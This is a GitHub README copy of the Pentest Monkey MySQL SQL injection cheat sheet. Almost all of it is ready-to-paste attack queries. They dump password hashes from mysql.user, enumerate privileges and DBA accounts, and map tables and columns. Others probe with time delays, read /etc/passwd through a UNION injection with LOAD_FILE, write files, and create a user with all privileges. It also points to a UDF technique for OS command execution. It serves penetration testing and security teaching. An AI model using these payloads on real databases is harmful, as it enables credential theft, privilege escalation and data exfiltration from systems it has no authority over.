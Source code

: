 # MySQL SQL Injection Cheatsheet - Fixed From Pentest-Monkey

Fixed the Unicode single quotes for copy and paste -able. Pentest Monkey is Awesome.

Version
```sql
SELECT @@version
```

Comments
```sql
SELECT 1; #comment
SELECT /*comment*/1;
```

Current User 	
```sql
SELECT user();
SELECT system_user();
```

List Users 	
```sql
SELECT user FROM mysql.user; — priv
```

List Password Hashes 	
```sql
SELECT host, user, password FROM mysql.user; — priv
```

Password Cracker 	John the Ripper will crack MySQL password hashes.

List Privileges 	
```sql
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns
```

List DBA Accounts 	
```sql
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; # priv
```

Current Database 	
```sql
SELECT database()
```

List Databases 	
```sql
SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0
SELECT distinct(db) FROM mysql.db — priv
```

List Columns 	
```sql
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
```

List Tables 	
```sql
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
```

Find Tables From Column Name 	
```sql
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username'; — find table which have a column called 'username'
```

Select Nth Row 	
```sql
SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0
SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0
```

Select Nth Char 
```sql
SELECT substr('abcd', 3, 1); # returns c
```

Bitwise AND 	
```sql
SELECT 6 & 2; # returns 2
SELECT 6 & 1; # returns 0
```

ASCII Value -> Char 	
```sql
SELECT char(65); # returns A
```

Char -> ASCII Value 	
```sql
SELECT ascii('A'); # returns 65
```

Casting 	
```sql
SELECT cast('1' AS unsigned integer);
SELECT cast('123' AS char);
```

String Concatenation 	
```sql
SELECT CONCAT('A','B'); #returns AB
SELECT CONCAT('A','B','C'); # returns ABC
```

If Statement 	
```sql
SELECT if(1=1,'foo','bar'); — returns 'foo'
```

Case Statement 	
```sql
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A
```

Avoiding Quotes 	
```sql
SELECT 0x414243; # returns ABC
```

Time Delay 
```sql
SELECT BENCHMARK(1000000,MD5('A'));
SELECT SLEEP(5); # >= 5.0.12
```

Make DNS Requests 	Impossible?

Command Execution 	

If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar).  The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this.  Remember to compile for the target architecture which may or may not be the same as your attack platform.

Local File Access 	

```sql
…' UNION ALL SELECT LOAD_FILE('/etc/passwd') — priv, can only read world-readable files.
SELECT * FROM mytable INTO dumpfile '/tmp/somefile'; — priv, write to file system
```

Hostname, IP Address 	
```sql
SELECT @@hostname;
```

Create Users 	
```sql
CREATE USER test1 IDENTIFIED BY 'pass1'; — priv
```

Delete Users 	
```sql
DROP USER test1; — priv
```

Make User DBA 	
```sql
GRANT ALL PRIVILEGES ON *.* TO test1@'%'; — priv
```

Location of DB files 	
```sql
SELECT @@datadir;
```

Default/System Databases
```sql
information_schema (>= mysql 5.0)
mysql
```


## References

[Original Pentest Monkey Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
